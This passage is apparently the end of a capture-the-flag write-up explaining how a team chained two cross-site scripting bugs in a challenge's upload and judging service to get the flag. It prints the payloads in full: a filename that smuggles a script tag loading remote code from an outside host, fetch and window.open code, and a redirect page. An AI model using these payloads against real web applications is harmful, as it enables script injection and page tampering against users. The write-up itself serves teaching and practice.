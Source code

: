 ### XSS via filename
Then I noticed that there is actually a second XSS, in the filename of the upload. We can pass the above script in here (where it will be able to modify the `window.open`).

But it won't ever visit this page, right?

Yes, it won't. But we can now just redirect from the `file://` page to this.

### Final Approach

We upload a file with the name `<script src='http://ireland.re/js'></script>` which has the following contents:
```js
fetch("http://ireland.re/callback").then(r => {console.log(r.text().then(e => {

var my = window.open('http://127.0.0.1:5000/status/' + e, '_blank' ,"height=600, width=600");

my.onload = function () {
 my.document.body.innerHTML = "winner!!";
};
```
We save the ID of the uploaded file.

Then, we upload a file with the following contents:

We first upload a file names `...html` with the following contents:
```html
<script>
window.location.href = "http://127.0.0.1:5000/status/<id>";
</script>
```
We can substitute the ID in above, for `<id>` and it will redirect to the page containing our payload.
We will need to first submit the original file for judging, so its status page is populated with our XSS payload. Then, we can submit the previously uploaded file for judging.
It will visit our `file://` XSS which will redirect it to our status page containing another XSS, use `window.open()` to pollute the page context and modify it to contain `winner!!` with the correct origin. Then, we simply visit the status page to retrieve the flag!

### Credits
Thanks to all members of Ireland Without the RE who helped with this. It was a fun challenge!
-m0z
